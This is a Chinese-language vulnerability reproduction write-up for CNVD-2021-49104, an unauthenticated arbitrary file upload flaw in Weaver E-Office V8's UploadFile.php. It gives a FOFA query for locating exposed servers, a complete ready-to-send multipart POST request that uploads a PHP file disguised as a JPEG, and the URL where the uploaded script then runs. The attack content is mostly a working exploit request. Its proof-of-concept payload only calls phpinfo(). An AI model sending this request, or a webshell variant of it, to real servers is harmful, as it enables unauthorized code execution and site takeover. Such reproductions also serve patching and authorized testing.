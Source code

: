 # 

# 泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104

## 漏洞描述

在/general/index/UploadFile.php中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520134325360](./images/202205201343420.png)

发送请求包

```SS
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![image-20220520134342019](./images/202205201343075.png)

再访问

```
/images/logo/logo-eoffice.php
```

![image-20220520134356648](./images/202205201343715.png)
